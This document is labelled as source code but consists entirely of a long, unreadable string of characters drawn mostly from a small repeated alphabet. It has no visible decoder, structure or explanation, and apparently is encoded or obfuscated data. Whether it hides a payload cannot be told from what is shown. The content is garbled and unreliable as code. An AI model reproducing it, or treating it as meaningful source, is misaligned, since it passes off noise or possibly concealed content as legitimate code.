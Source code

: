pkWk&B=BCpk:KfCBkCfkdpKpCWfB&oCpPPoWo&BoYPdv:fYnCfYpoK:KYkdopCknd=BYp<A=&npC&d:d=kWPKn=K+oKoC=nYP:fKn:P=oW.nfonoPtf&YPWndknKBCCWddBKp:TYPddCBdpYWk&nWPKn:P=dWp&C=BWfK:=:fpfxCofK&:C:dk&fnKkKo0:IP=BCd&&WpP5%Bfpnn=p&do&ppdXd=CPKW=&1KBC=kPfNCfkB&CdPCWoV::Pnop:kPf=KPYo=ndPP:dCnPoof:nYodWBf&C=Kzd&K=:WYPCGo&oCYkkC=Y&kp&dfB:dPkfdnKPCpfPffCnkYWofnCYpBVCBYdd::nY=uap&Pp;o&p=P0W&&=dKPnkKf:YkpfkCdkBYoW:fkCCPWKfP:WBok:CPkoKYCWno=:YY{d=BnYCBdnoYodn&k=kH&WBonCkWdKKCC&kCoW:K!CoWfK&PPW=:dPBod&B:=PKfo:WYYd#:HdKdCBpcPoIB#W:oY&PpPRC&CpfKokkf=CBkCfYCd&_pk_o&BPY-n&fPK:npWdb:fYBdpk:ondPnYYffBpP&WnYpYx&BnpB=dknKCCYkWKKDKKWYoEnKp=WkJBBnKEf&dpdWkY=d::oY&dnBPKn:BpWooBCpCd=idKf=CWYKW=KBr=dW:KB=BkYKSknk:KBCYfK&YCdkdfKnkPKYCMP:dYKd:BYfp:CpPBKnKYdA_&pp:d&&&=PWP=oPYoWkpf&CfkBfCnkBnCCkYnBpKPWoWnCPfffdpBBYfdBBCpkCnpndfB=p=tnnCpCb:WnfBChWfKBCp:CCWW:KB=dfC&CnpP/fYnPkB:kCkPpo=:&PdoWBWY:d:{Y&KpK4:&==Wn:podf&pW=op&WCWWoKP=:kYkoonn=PPoqn&&dnfPdfdnpofKfnKYVo=:WYddCBC&k==bB&C=Y<dYP?K&==BKYBP=KWkknfonykffBnpBKnpkdf&noPPffndPPoodnBKpudfBBppCBYndoBYgBfd&:pP=okYK=CPk#K&WnKn=CWCfPnWkKf nkknPodn:=YPdO:&KdnKYnoKBFpWBBnpY:AnpoY5<nB:KkC:WBKCCYWdYnW=&o=KrYfPCPknfWnBkdPdd&:CYYdW:Kfk:nYgdB:=pado::pW&k:kYd!&Bd=PWYWffoCpkkKdCBBoC9W=K=CoPPn:pnPkonn=PnfoYYWPfd:dYKdW:CpkpKWP&Y=Wqo&:fK&P=PW:=oYWWBKB=&kPKdf:noPWfon&P==Bk:fk:%koo5=CPPdWdKKkpY/WBop:n=PKfCnKYC&&nBYWdW:kYCdKC=YpWWfWCokPK:CnPbfBnfPPf=:k:KpWdYBWYod:Wddd::YYtPBdYf&pCP&dC:WCKYCWWKYfW:KCkYdBfkk&>KfCCPkPfpnCkfYPdK:&YndpB2KpndY:oKBo?:ekpKY5Mp&ppK1WWBfWCkWdKKCC:&CYkbKfCWWKfBPPGnokCK:CpYod:KY:dYkpoCBPdKfK:dp2RpB:Y&R&&P=P&onYPWA:kkf=CBkCfYCdBWCWk:fCnnoW&&nb:npydl:fYBdpk:oY:&pkdK:nLYoY&kYKi=B:KkCCWBKCCYWdYoWkfkCKkCnWp=PNKBop:=PfoB:CYk=YWKKKCnWKpY1=BKp:4=W:KdCdWdKnCCk:CHkWKnCpkkKf+C:KpBdfBdfd:pPCoY:WPK=:Pf:CCoP=oPY&k1dB:YBdCn6C&Y=W,KPkWkBKpCW=KkpKWBCpkBdpfWCCW:KKCdk&K&PCWYfYYfWnoCnCP&o&:W4kp=+:Bop&<n&Po:&WpkdK&KpBWpWdfBCCkYfWCKBknkWKKCn=PkKKnBopKpnkPook:=YCpcddBnppDkkPfpC:W&=pWn&f=BWCKkonKn=kSfKKCnW=koonn=PPoJn&&&nWWPoK=CPkok:PP:o=YokPdf:C&k=oJB&C=YhdPW&f:d=ptfKC=PWfK&==WoCd=GkkfPCn:^p&on:pYkofk=o>:=YYd(YdkYdo:nGP&nnPpdupBCpBLf&:p:KpK#=oKK&K=&WdfpC:W&f:Pf:WYBo::=YPooWdoo:nY?on:PpWBBnpY:_:&Ppo=nkWKM=fWBKpdn&n=WW:KCkCz=KkC&k&K:CKkCPddo:CYYdW:KKC:dYWd:BppW#}pnPndBBYpBdB&YpKlCBo=nWBkYfnCKk:f=nW&WCdfKfKnBPnf=nP:Bp=dk:dYKdCkYdB:pYB-pp:knddBdp9cp&BWYo:KPpfCnkdf9CfkBfpdBfnCokYKdn=Pk:WCvW:&ddp&=YfdBBCpkC=Yndk:dpBd:=WPYdKB&=:WWKWCpK:BBCKWPKKC:kpPYo&nKP:o=:WKp:YPPoo:nYnBj:YPdd&BP&WCkM:&==P5opP9p&Kp:WkKk=Wfn&o=&oZBKnYklKC=nP:&PpWPCofdT:dYndpBk&WCpWf&&tpfkpfRB&C=k:==->d&P=pKY::CP6fCnkfdnfYCBWKKdnkkoKoPBPpoPYWWofopCkkdW:WYpdp:&9K=1PC&n=pWk&fo=BK=oNBCk=%KKKK=:kpK:CfkonCnCP=fpnkkfon:=Pno&:CWpBPCBYKdPBpaY}pB=pT&nn:p&WkBd=nWn&CkWCfPCfpnkkdfB-&fCnpokfn:1o:oB:pPWoW:PYpo&*W&Cp:g=&PponKYfjYB&YBh:&&poW=K&fWnYk:f=nPkop?koKKP=-&opCd:Bppdk:dYKdCWBdCBWYBdWBC3=fpBdp&dd&BWYoBBYK&n9kPf!CfknYBPUfnnkkknBYndkBPoo&nY=dPBrY&CoYkdK:YYKm{pB>dfB&=pKdo&W=YW*&NWKWCKpkP/eKaP:+YfPCPkCfCCfooYkdC:BYCdY:dfY:KYKonpYkBzWnnYf=pWf&f=BWCKkoC&:CR*fK=C=WpCopCkWfPCfndYkoC:YYWoK>ooK:BP:odndYCpnk:&DpfuB&pfKCP=kWW&d={fYK=CWK&KyCBWYCdPYddf&nWkPf=n:PpfpYWPKoBYnkpoppok:dn:nYKdKBkWP=CkP&d=KW:KYdkKCCWWT&oCnfPBfn=kff&C:PPoCP&dBYpd=:fYBdCBkdPBkY=dnB&&Y=:LK&:==WWYpWn&B=kWoCPYnkk&KfC:WkdfKn:PY=CkPoWnpPfodYPW=fonfY&dPBPpCp&l&&P=#hf&ndknoYnokWfPcCpkkKdCBKPCKk:fknkd=:nYpPpfW:YdnfonfYpo=BmPBdBBpYYdo:KppmW&Ypk(n&&kk-Y&f=nfCBn=pkWKpC:kBBpnkPP::=PkffP:#kKoB:okCof:pYdo&BppPooB=PPb:Bf=nQ5CC=C_C&p=dfn&o=nWWKWCfo=fWCkkCf:YCWWf&nWPofB:nYKfp:&YPdf::pPvW:KpYoW&Cp&W=BoK=:kWoK&CnkPpWWkK&=KfnBfnCkWnKYW!KonnoPMoP:=YkokYoY:dCppPkdk=&P=upBpp:6:Bdk(CYk&KKC:k=fW7pKdCWWoKBPPWkoknnoCBndWBfY:d=BPYoCYYBoB:nYddppfP:LC&npB_&&YCkqBKYKdnPkCfYnWkK=WkffKnPoW&=:6kBYpdp:fYBdCBkKK:PYKdnMCKppdmK&:=YnnpPWW=KY&EC&==pKfBfCzkWf=CBWKfKnYPYPdd&:CYYdW:KfN:kY=oC:KppoKBoYB&k:WYfdKBd=WICWfoYCpkkKdCBKf=BkfKPnkkdKonBkKfYpCd:B=pK,=&W=YW_&K=YWk&f=fWdKnCPWd=BkYKk=dWKKCd&K:CCWPCKpPk&fXnyff&:C:k=oBooBiY=dPBjY&CBPod&BpYdd&9B&f=kLd&K=C:&Ypd&=dYWdKB=fPnnk&fnnpPLpkPkfPCfPC:k=CYWf&d=BoYod&BnpPnCp=d&BYpKonBp=WTp&:=BW=k*o=CnkpfkCfBPnPWfKnnCPPKfn&o=K=nPPdoP:CYnBWCppYdpppkodY:fp.j&BnK>CYWnKpCkWfpWzoKB=okkfPkKoBP=oBnoP&on:PKCnYYloY:nY:Bk=WBK=f^Y&WpoI:kfdn&=WWok&rp:WW&CCWWdKW=dkPn#=WPPKBnPP0fKo&:dYPd/:fYn=BYBo&:pYdfkBKY==WW&&:==WP&ooY&BpoWn&BC:Kf:&CBkCKknPkCfKop:CPfoB:CYk==Wo:fCkkKK=mW&Kp:c=&Ppon0pBHk&PpnK+Bt=PWYK:=fNdKdCCkCPkopnBPCoYnd&n:WPooC=&P=dkd&&npP0;BfpnCfpndYBCpKTn=CPpepKY=mW=K:CCkWKWCKn=YYfon&PnoPWWfknko&&&noY=dnYKWKoo:YpEDW:dp:&YCP&oCPW=KPCEW&YdWW&dCWk:CfpkkKK=oW:BP:o=:PPoC:P&o=nnPKopYfW&d&BnYkdWB=&nCkWI&f=BWpYfq&&dkYWfCCCnW:KPk&T&fpn&doPKdY:YYWoo::&&:pPfoo:Pd&f&:fYPdPB&=G==PP&o=&WnKPdMK==KFKfzkpdBfY=of:nop:Ppf&CfPloPndkd:&:=YYBkCdPd&nnPpkdkB=p=dK=fKWC=W:K=CPWoYdWoKnCFWnKPnWfB&foYBWPKo::=YW=dPodE:nYno=B:Yud=:K^Yfo:d=YEXBBpd=dkYKCCYkWKKdd&d=&fY&&ko<PffCC:k=poB:CYYodkYop:PYBBY:CYCdC:fep%:BIpd&:&==pedKWpdEBKn==WkC&CdWof=CCfK&=npPkfoChkdfBYYkC&Wd&KypPNOBfpnCBpYdKBfpk&BnBpK<k&&=&WWKYC-kkCKpKWdfLnpk:K&n&PPoPooBkY=dPBIY&CnYndkpPk&d=BnYo=YWB&K=:W=KWdp&bCk%o::CkWoKPCPWoPYodnKP:o=:W&Yn-YIoW:nYkod:BdBKnBnppod:opP=pWf&f=BWCKkd=&fpoWf&dkY^pK=CYk=KKnpndPdoC:YYWoKW=on:)YnpWWfB:p=lPBook:fpCdBBn=k&fBkWCKK:CCPW:&&=okWKf=ff:fYnkox&fCfd=KW:_PzoY:YPBB&dd&PpCsY&WpK:uYf4:Bf=WWk=&k&Cpk:KfCBkCfkoPfnYpdknCpKP=f9o&&QYPd7:fYnC=Ypdk:oPHod:BYPoY&kpfEW&Pp:Wk:Y=klB&C=pW&:&C&knfPffn:P=oP:xPfoBnCnPdPBPY&dnBpp2CdPddn:f&pCBsf&B=CWkY=Wv&kpd>&CYY:kP&fknjfnkPCeoKoC:PkffnkPnf&npPpofpYBnp&whBfpBTpkBdnB=Yo,d&P=nCWkBK:C=kPKoA=KWCKkBKpCdPkfnC&oYKW:_PBYnWCB4YfdBBpfn:nYWd:BC_Co=Bkp&-&B:pK/C=dkYodK&CWWPK=C:kpKpPWkKfBPnknfCn&YWopnCYpB:df&PppDkBdpBCKYKd::ppYdd&fpdWk&oKfnWkpfkCdkBpCPWfdCCPW&YnoknYPdC:&YndpB?fBBPYddCppkB0Y:o&:CPWW&o=&W=YCSK&k=KWdKCCkfkBpC&k&K:CnPPPfdY:pYkod:BK=:WYPo:Ydknoo:fYYdP&=&B=dWk&d=KWCPBWB&P=fWPC:YoknKkff:YPpokndPB=Wk:oC:=odKdnKYnoKBbpWpBWF&kpdRK&Cfd:YWkop:pYKoo:KYodYkBffnkkdfKnC&pnYPBnd=YPofndPBkY&dnBp&p=CEfK&rnKk=.cf&B=pnB=pe:KP=PWp&&kWdPKnCnWofYCYnKYfoY:WPoo:%&opnfPooPY&WBdW:PpkF.p:P:dKBf=kI=Bn=nWSKeK&C:kPfTCf:fYKo=PPdBn&Pnop:6&=:Wkof::pPC:dCKPBd=:Yb